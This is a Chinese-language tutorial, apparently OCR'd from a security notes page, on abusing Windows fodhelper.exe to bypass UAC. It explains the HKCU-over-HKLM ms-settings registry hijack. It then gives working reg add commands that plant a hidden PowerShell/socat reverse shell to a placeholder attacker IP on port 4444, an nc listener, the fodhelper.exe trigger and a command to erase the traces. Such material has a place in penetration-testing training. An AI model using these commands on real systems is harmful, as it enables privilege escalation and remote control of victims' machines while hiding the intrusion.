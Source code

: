     fodhelper.exe 是 Windows 中负责管理“按需功能 (Features on Demand)”（如附加语言包、可选应用程序等）的默认可执行程序。与大多数用于系统配置的程序类似，在默认的 UAC 设置下，fodhelper.exe 可以自动提升权限。与 msconfig.exe 不同的是，fodhelper.exe 可以在没有 GUI 访问权限的情况下被滥用，这意味着它可以通过一个中等完整性的远程 Shell (如 PowerShell 或 cmd) 来利用，以获得一个功能齐全的高完整性进程。
    
    漏洞原理:
    
    当 fodhelper.exe 执行时，它会尝试打开与 ms-settings: URI 方案关联的程序。Windows 在打开文件或 URI 时，会检查注册表以确定使用哪个应用程序。注册表为每种文件类型或 URI 方案保存一个名为“程序标识符 (ProgID)”的键，其中关联了相应的处理应用程序及其命令行。
    
    关键在于，Windows 在查找 ProgID 关联时，会优先检查当前用户的注册表配置单元 `HKEY_CURRENT_USER\Software\Classes` (HKCU)，如果找不到用户特定的关联，才会去查找全局的机器级关联 `HKEY_LOCAL_MACHINE\Software\Classes` (HKLM)。(`HKEY_CLASSES_ROOT` 或 HKCR 实际上是 HKCU 和 HKLM 中 `Software\Classes` 的合并视图)。
    
    攻击者可以利用这一点：
    
    1. 在 `HKCU\Software\Classes\` 下为 `ms-settings` ProgID (具体路径是 `ms-settings\shell\open\command`) 创建一个自定义的命令关联。
    2. 由于 HKCU 的优先级更高，当 `fodhelper.exe` (一个自动提升的进程) 尝试打开 `ms-settings:` 时，它会执行攻击者在 HKCU 中指定的命令。
    3. 因为 `fodhelper.exe` 是以高 IL 运行的，它创建的任何子进程（即攻击者指定的命令）也将继承高 IL，从而有效绕过 UAC。
    4. 为了使自定义命令关联生效，通常需要在 `HKCU\Software\Classes\ms-settings\shell\open\command` 键下创建一个名为 `DelegateExecute` 的空字符串值 (REG_SZ)。如果此值不存在，操作系统可能会忽略用户自定义的命令，转而使用全局关联。
    
    示例 (使用 reg add 设置注册表键以获取反向 Shell):
    
    假设已获得中等权限的 cmd Shell，攻击者 IP 为 <attacker_ip>，监听端口为 4444。
    
    DOS
    
    ```
    set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
    set CMD_PAYLOAD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
    reg add %REG_KEY% /v "DelegateExecute" /d "" /f
    reg add %REG_KEY% /ve /d %CMD_PAYLOAD% /f  REM /ve sets the (Default) value
    ```
    
    在攻击机上设置 Netcat 监听器：
    
    Bash
    
    ```
    nc -lvnp 4444
    ```
    
    然后，在目标机器的中等权限 Shell 中执行：
    
    DOS
    
    ```
    fodhelper.exe
    ```
    
    这将触发在 HKCU 中设置的 `CMD_PAYLOAD`，从而在高权限下执行 `socat.exe` 并建立反向 Shell。
    
    **清理痕迹**:
    
    DOS
    
    ```
    reg delete HKCU\Software\Classes\ms-settings /f
    ```
    